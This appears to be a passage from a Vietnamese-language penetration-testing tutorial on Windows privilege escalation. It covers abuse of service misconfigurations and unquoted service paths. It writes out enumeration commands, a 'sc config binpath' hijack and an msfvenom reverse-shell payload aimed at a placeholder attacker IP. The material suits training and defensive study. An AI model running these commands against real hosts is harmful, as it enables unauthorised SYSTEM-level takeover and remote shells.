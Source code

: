 #### Seatbelt
```cmd
## Seatbelt là công cụ thu thập thông tin hệ thống
Seatbelt.exe -group=all
```

Mặc dù các công cụ tự động rất hữu ích, bạn vẫn cần hiểu rõ các kỹ thuật cụ thể để có thể phát hiện và khai thác hiệu quả các lỗ hổng leo thang đặc quyền.

### Các kỹ thuật leo thang đặc quyền chính

#### 4.3.1. Service Misconfigurations

Các lỗ hổng liên quan đến cấu hình dịch vụ Windows là một trong những vector leo thang đặc quyền phổ biến nhất. Các dịch vụ thường chạy với quyền SYSTEM, vì vậy nếu bạn có thể kiểm soát được dịch vụ, bạn có thể thực thi mã với đặc quyền SYSTEM.

##### Kiểm tra quyền trên dịch vụ
```powershell
## Kiểm tra quyền với AccessChk
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv "Everyone" * /accepteula

## Kiểm tra dịch vụ chi tiết với WMI
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows"
```

##### Khai thác dịch vụ có thể sửa đổi
```powershell
## Thay đổi đường dẫn bin của dịch vụ
sc config [service_name] binpath= "C:\path\to\malicious.exe"

## Khởi động lại dịch vụ
sc stop [service_name]
sc start [service_name]
```

#### 4.3.2. Unquoted Service Paths

Khi đường dẫn đến file thực thi của dịch vụ có khoảng trắng và không được đặt trong dấu ngoặc kép, Windows sẽ tìm kiếm và thực thi chương trình theo từng phần của đường dẫn.

##### Tìm dịch vụ có đường dẫn không đặt trong ngoặc kép
```powershell
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows" | findstr /i /v """
```

##### Khai thác
```powershell
## Ví dụ: Dịch vụ với đường dẫn: C:\Program Files\My Program\service.exe
## Tạo file độc hại tại: C:\Program.exe hoặc C:\Program Files\My.exe

## Tạo payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe -o C:\Program.exe

## Cấp quyền thực thi
icacls "C:\Program.exe" /grant Everyone:F

## Khởi động lại dịch vụ
sc stop [service_name]
sc start [service_name]
```
